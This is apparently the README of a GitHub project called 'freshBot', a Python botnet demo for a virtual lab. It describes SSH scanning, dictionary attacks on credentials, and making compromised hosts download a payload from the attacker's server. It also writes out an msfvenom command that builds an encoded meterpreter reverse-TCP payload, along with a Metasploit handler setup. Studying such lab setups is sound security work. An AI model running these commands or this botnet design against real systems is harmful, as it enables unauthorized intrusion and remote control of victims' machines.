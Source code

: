 # freshBot
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" scans virtual network, if it finds a node with ssh service<br>
running it performs a dictionary attack on it. Once, correct credentials are<br>
provided, 1st payload executes and directs target to download an "evil_file"<br>
from our web server.
<br>
<h1>The Environment Setup</h1><br>
<br>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4><br>
2. Our Web Server: **192.168.203.1/evil_file**<br>
3. **4** * **ubuntu-16.04.5-desktop-amd64** in the same virtual network.<br>
4. Python - paramiko module.<br>
5. msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file<br>
6. msf5 > exploit/multi/handler module<br>
7. scan_drop.py - Scans, Dictionary Attack, send 1st stage payload, RCE.<br>
